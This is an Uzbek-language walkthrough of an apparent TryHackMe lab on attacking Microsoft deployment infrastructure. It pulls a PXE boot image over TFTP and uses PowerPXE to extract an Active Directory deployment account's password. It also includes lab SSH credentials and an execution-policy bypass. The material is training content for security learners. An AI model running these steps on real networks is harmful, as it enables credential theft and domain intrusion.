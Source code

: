 Katta tashkilotlar infratuzilmani tarqatish va boshqarish uchun vositalarga muhtoj bo‘ladi. Juda yirik tashkilotlarda IT xodimlari har bir kompyuterga DVD yoki hatto USB fleshkalar orqali dastur o‘rnatib yurishlari amalda mumkin emas. Yaxshiyamki, Microsoft bu kabi infratuzilmani boshqarish uchun kerakli vositalarni taqdim etadi. Biroq, ushbu vositalarda noto‘g‘ri sozlamalar bo‘lsa, ulardan Active Directory’ga hujum qilish uchun foydalanish mumkin.

### MDT va SCCM

**Microsoft Deployment Toolkit (MDT)** — bu Microsoft tomonidan taqdim etilgan xizmat bo‘lib, Windows operatsion tizimlarini avtomatlashtirilgan tarzda o‘rnatishda yordam beradi. Katta tashkilotlar bu kabi xizmatlardan foydalanib, yangi tizim tasvirlarini markazlashgan joyda saqlab va yangilab, ularni osonroq tarqatishadi.

Ko‘pincha MDT **Microsoft'ning System Center Configuration Manager (SCCM)** xizmati bilan integratsiyalashgan bo‘ladi. SCCM Microsoft dasturlari, xizmatlari va operatsion tizimlaridagi barcha yangilanishlarni boshqaradi. MDT yangi qurilmalarni sozlash uchun ishlatiladi. Ya’ni, IT jamoasi yuklash (boot) tasvirini oldindan sozlab qo‘yadi. Shunday qilib, yangi kompyuterni tayyorlash uchun faqat tarmoqqa ulanadigan kabelni ulash kifoya – o‘rnatish avtomatik tarzda boshlanadi. Ushbu boot tasviriga Office365 yoki tashkilot tanlagan antivirus kabi dasturlarni oldindan o‘rnatish mumkin. Shuningdek, o‘rnatish birinchi marta ishga tushirilganida tizim yangilanishlari ham avtomatik tarzda o‘rnatiladi.

**SCCM esa MDTning yanada kengaytirilgan va kuchliroq versiyasi hisoblanadi.** Dastur o‘rnatilgandan keyin nima bo‘ladi? Mana shu bosqichda SCCM ishga tushadi. U patch management – ya’ni dasturiy ta’minotdagi yangilanishlarni boshqarish bilan shug‘ullanadi. IT jamoasi mavjud yangilanishlarni ko‘rib chiqib, ularni oldindan sinov muhiti (sandbox)da tekshiradi va faqat barqaror deb topilgan yangilanishlarni barcha domenga ulangan qurilmalarga markazlashtirilgan tarzda tarqatadi. Bu IT jamoasining ishini sezilarli darajada yengillashtiradi.

Biroq, MDT va SCCM kabi infratuzilmani markazdan boshqarishga imkon beruvchi vositalar — noto‘g‘ri sozlangan taqdirda — hujumchilar uchun nishonga aylanishi mumkin. Chunki ular tashkilotdagi muhim funksiyalarni boshqaradi. Ushbu topshiriqda esa biz MDTning **PXE boot (Preboot Execution Environment)** deb nomlangan sozlamasi ustida to‘xtalamiz.


### PXE Boot (Preboot Execution Environment)

Katta tashkilotlar yangi qurilmalarni tarmoqqa ulanganda, ularning operatsion tizimini bevosita tarmoq orqali yuklab o‘rnatish imkonini beruvchi **PXE boot** texnologiyasidan foydalanishadi. **MDT (Microsoft Deployment Toolkit)** yordamida PXE boot tasvirlarini yaratish, boshqarish va ularni hosting qilish mumkin.

PXE boot odatda **DHCP** bilan integratsiyalashgan bo‘ladi. Ya’ni, agar DHCP qurilmaga IP manzil ajratsa, u holda ushbu qurilma (client) PXE boot tasvirini so‘rashi va tarmoq orqali OS o‘rnatishni boshlashi mumkin bo‘ladi. Bu jarayon quyidagi sxema orqali amalga oshiriladi:

1. Yangi qurilma tarmoqqa ulanadi.
2. DHCP unga IP manzil ajratadi va PXE server manzilini beradi.
3. Qurilma TFTP protokoli orqali PXE boot tasvirini yuklab oladi.
4. OS o‘rnatilishi avtomatik tarzda boshlanadi.

---

### PXE Boot tasviridan foydalanib hujum qilish

Biz ushbu **PXE boot tasviri orqali ikki xil maqsadda hujum** uyushtirishimiz mumkin:

1. **Imtiyozlarni oshirish vektori qo‘shish (Privilege Escalation)** – masalan, PXE tasviriga lokal administrator foydalanuvchisini qo‘shib, OS o‘rnatilgach tizimga to‘liq administrator huquqlari bilan kirish mumkin bo‘ladi.

2. **Parollarni yig‘ib olish hujumi (Password Scraping)** – OS o‘rnatilishi davomida ishlatilgan **Active Directory (AD)** hisob ma’lumotlarini, xususan, **MDT xizmatiga biriktirilgan deployment service account** foydalanuvchisini aniqlash va uning parolini olish mumkin.

---

### Ushbu topshiriqda

Biz **ikkinchi hujum usuliga** e’tibor qaratamiz — **password scraping**. Maqsadimiz: MDT xizmatidan foydalanilayotgan paytda tizimda ishlatilayotgan **deployment service account**'ning ma’lumotlarini aniqlash. Bundan tashqari, avtomatik tarzda ilovalar va xizmatlarni o‘rnatish jarayonida ishlatilayotgan boshqa **AD foydalanuvchi hisobi** (unattended installation accounts) ma’lumotlarini ham aniqlash ehtimoli mavjud.


### PXE Boot tasvirini yuklab olish (Retrieval) — O‘zbek tilida

**PXE Boot orqali hujum qilish uchun DHCP bosqichlarini o‘tkazib yuboramiz.** Ya’ni, biz IP manzil yoki PXE boot konfiguratsiyasi ma’lumotlarini DHCP orqali olish bosqichlarini bajarmaymiz — bu qadamni qo‘lda bajaramiz.

#### 1. **MDT server IP manzili**

Odatda, PXE Boot konfiguratsiyasida siz DHCP orqali quyidagi ma’lumotlarni olgan bo‘lardingiz:

* **MDT server IP manzili** — bu ma’lumotni siz **TryHackMe tarmoq diagrammasi** orqali topasiz.

#### 2. **BCD fayllari**

* BCD (Boot Configuration Data) fayllari turli arxitekturalar uchun PXE boot konfiguratsiyasini saqlaydi.
* BCD fayllar ro‘yxatini olish uchun quyidagi saytga tashrif buyuring:
  👉 `http://pxeboot.za.tryhackme.com`
* Fayllarning nomlari har kuni o‘zgaradi, shuning uchun siz o‘z faylingiz nomini **nusxalab saqlab qo‘ying.**
* Masalan: `x64{7B...B3}.bcd`

---

### SSH orqali TFTP yordamida BCD faylni olish:

1. SSH sessiyaga ulanishingiz kerak:

   ```bash
   ssh thm@THMJMP1.za.tryhackme.com
   Parol: Password1@
   ```

2. `Documents` katalogiga o‘ting va foydalanuvchi nomingizdagi papkani yarating:

   ```cmd
   cd Documents
   mkdir <username>
   copy C:\powerpxe <username>\
   cd <username>
   ```

3. TFTP orqali BCD faylni yuklab oling (IP manzilni oldin `nslookup` orqali toping):

   ```cmd
   nslookup thmmdt.za.tryhackme.com
   ```

   So‘ng:

   ```cmd
   tftp -i <THMMDT_IP> GET "\Tmp\x64{...}.bcd" conf.bcd
   ```

---

### PXE tasvir joylashuvini aniqlash:

1. PowerShell’ni ishga tushiring:

   ```cmd
   powershell -executionpolicy bypass
   Import-Module .\PowerPXE.ps1
   $BCDFile = "conf.bcd"
   Get-WimFile -bcdFile $BCDFile
   ```

   Bu sizga quyidagi kabi yo‘lni beradi:

   ```
   <PXE Boot Image Location>
   ```

---

### PXE Boot tasvirini yuklab olish:

```cmd
tftp -i <THMMDT_IP> GET "<PXE Boot Image Location>" pxeboot.wim
```

> Bu fayl katta bo‘lgani uchun (taxminan 300MB+), yuklab olish bir necha daqiqa davom etadi.

---

### PXE tasvirdan AD credential’larni ajratib olish

1. PowerPXE yordamida `pxeboot.wim` faylni tahlil qilib, undagi credential ma’lumotlarini ajratamiz:

   ```powershell
   Get-FindCredentials -WimFile pxeboot.wim
   ```

   Natijada quyidagiga o‘xshash chiqishi kerak:

   ```
   DeployRoot = \\THMMDT\MTDBuildLab$
   UserID = <hisob>
   UserDomain = ZA
   UserPassword = <parol>
   ```

> **Natija:** Endi sizda yangi AD credential’lar mavjud bo‘ladi. Ushbu hisoblar orqali Active Directory tizimiga kirish hujumlari amalga oshirilishi mumkin.
